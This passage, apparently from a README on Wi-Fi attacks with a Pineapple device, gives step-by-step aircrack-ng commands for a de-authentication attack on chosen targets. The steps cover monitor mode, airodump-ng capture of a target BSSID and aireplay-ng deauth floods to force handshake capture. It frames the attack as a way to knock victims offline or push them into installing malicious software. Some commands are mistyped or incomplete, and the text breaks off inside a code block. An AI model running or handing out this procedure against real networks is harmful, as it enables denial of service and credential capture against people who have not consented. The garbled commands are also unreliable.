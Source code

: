     ![Wireshark Sniffing](image.png)

* De-authentication attack on **selected targets**. The most simple use is denial of service attack, but also it can be used to force victims to install malicious software - for target BSSID and client, we can flood the router with de-authentication messages pretending to be the client. The re-authentication process is rather fast and difficult to catch for the naked eye - estimation whether the victim has been de-authed
 

    Put network device into monitor mode:
    `airmon-ng start wlan0`

    Run the monitoring tool from Pineapple: `airodump-ng wlan1mon` - listen to all nearby beacon frames to get target device BSSID & channel

    Track the ongoing traffic of a specific target: `airodump-ng -c 11 --bssid <target=xx:xx:xx:xx> -d -w file.pcap wlan1mon` - start listening for the handshake

    De-authenticate connected client target with command : `aireplay-ng --deauth 30 -b BSSID -C` or `aireplay-nh -0 2 -a <target=xx:xx:xx:xx> -c xx:xx:xx:xx wlan1mon` - in order to force a handshake sniffing

    ```bash
    # Start aireplay to deauthenticate our victim until we stop the program. To see if this is working, some of the output lines should have a high number between the brackets [XX|64], this indicates that some of the deauth requests have been accepted.
